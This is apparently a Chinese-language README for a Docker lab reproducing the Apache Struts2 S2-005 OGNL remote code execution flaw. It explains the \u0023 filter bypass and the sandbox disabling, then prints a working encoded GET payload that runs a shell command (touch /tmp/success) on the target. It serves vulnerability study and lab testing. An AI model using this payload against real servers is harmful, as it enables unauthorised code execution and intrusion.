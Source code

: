 # S2-005 远程代码执行漏洞

影响版本: 2.0.0 - 2.1.8.1
漏洞详情: http://struts.apache.org/docs/s2-005.html

## 原理

参考吴翰清的《白帽子讲Web安全》一书。

> s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

## 环境

执行以下命令启动s2-001测试环境

```
docker-compose build
docker-compose up -d
```

## POC && EXP

执行任意命令POC（无回显，空格用`@`代替）：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36


```

网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。

POC用到了OGNL的Expression Evaluation：

![](1.jpeg)

大概可以理解为，`(aaa)(bbb)`中aaa作为OGNL表达式字符串，bbb作为该表达式的root对象，所以一般aaa位置如果需要执行代码，需要用引号包裹起来，而bbb位置可以直接放置Java语句。`(aaa)(bbb)=true`实际上就是`aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

期待大佬研究出有回显的POC。
